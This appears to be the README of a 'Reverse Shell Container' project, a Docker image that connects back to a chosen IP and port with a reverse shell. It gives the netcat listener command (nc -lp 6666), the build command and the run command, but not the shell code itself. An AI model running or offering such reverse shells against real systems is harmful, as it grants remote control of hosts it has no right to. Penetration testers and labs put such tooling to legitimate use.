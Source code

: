 # Reverse Shell Container

Run a container which connects back with a reverse shell.

## Start the server

The reverse shell in the container will connect back to your server.
Open up a port with the following snippet:

```bash
nc -lp 6666
```

## Build the image

```bash
docker build -t reverse_shell:latest .
```

## Execute the image

Execute reverse shell container with: `docker run --rm -it -e IP=192.168.178.26 -e PORT=6666 reverse_shell`
